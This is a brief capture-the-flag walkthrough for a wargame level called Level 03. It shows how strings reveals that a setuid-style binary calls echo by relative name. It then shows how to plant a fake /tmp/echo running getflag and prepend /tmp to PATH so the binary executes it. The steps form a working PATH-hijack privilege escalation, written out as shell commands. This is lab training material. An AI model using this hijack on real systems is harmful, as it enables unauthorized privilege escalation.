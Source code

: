 # Level 03

## step 1 : analyze level03
```
$ strings level03
```
we can see that level03 use the echo command

## step 2 : create a fake echo command that will run getflag
```
$ echo "/bin/getflag" > /tmp/echo
$ chmod 777 /tmp/echo
$ export PATH="/tmp:$PATH"
```

## step 3 : execute level03
```
$ ./level03
```
